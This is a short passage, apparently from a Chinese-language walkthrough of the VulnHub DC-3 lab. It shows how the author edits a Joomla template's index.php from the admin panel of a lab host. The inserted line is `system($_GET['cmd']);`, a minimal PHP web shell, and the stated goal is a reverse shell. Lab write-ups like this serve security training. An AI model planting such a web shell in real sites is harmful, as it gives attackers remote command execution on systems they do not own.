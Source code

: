 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/8.png)

是时候拿个 shell 玩玩了

我们可以编辑模板来获得一个反向 shell

访问 `http://192.168.141.138/administrator/index.php?option=com_templates&view=templates`

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/9.png)

这里随便找一个模板，我就用 Beez3 了，看它不爽

到 index.php 里加点代码
```php
system($_GET['cmd']);
```
